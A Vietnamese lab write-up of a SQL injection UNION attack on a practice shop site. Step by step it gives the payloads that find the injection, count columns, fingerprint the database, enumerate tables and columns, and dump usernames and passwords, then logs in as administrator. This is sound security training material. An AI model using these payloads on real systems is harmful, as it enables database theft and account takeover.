

# Lab: SQL injection UNION attack, retrieving data from other tables

## Yêu cầu

Đăng nhập với user `administrator`.

## 1. Phát hiện SQLi

Payload kiểm tra:

```text
/filter?category=Gifts'--
```

## 2. Đếm số cột

Payload:

```text
'+order+by+2--
```

Kết luận: truy vấn trả về 2 cột.

## 3. Kiểm tra kiểu dữ liệu và DBMS

Payload:

```text
'+union+select+null,null--         // Khẳng định có 2 cột
'+union+select+'a','a'--           // Cả 2 cột đều nhận string
'+union+select+version(),'a'--     // Hiển thị version() -> xác định DBMS
```

Kết luận: cả 2 cột đều nhận kiểu string.

## 4. Lấy tên các bảng

```text
'+union+select+null,table_name+from+information_schema.tables--
'+union+select+'12345',tablename+from+pg_tables+where+schemaname='public'--
```

Thu được 2 bảng cần chú ý: `users` và `products`.

## 5. Lấy tên cột của bảng `users`

```text
'+union+select+'12345',column_name+from+information_schema.columns+where+table_name='users'--
```

Các cột nhận được: `username`, `password`, `email`.

## 6. Lấy username và password

```text
'+union+select+username,password+from+users--
```



Đăng nhập thành công với username `administrator` và password `u1jdjtjapcz70h3agl4x`.
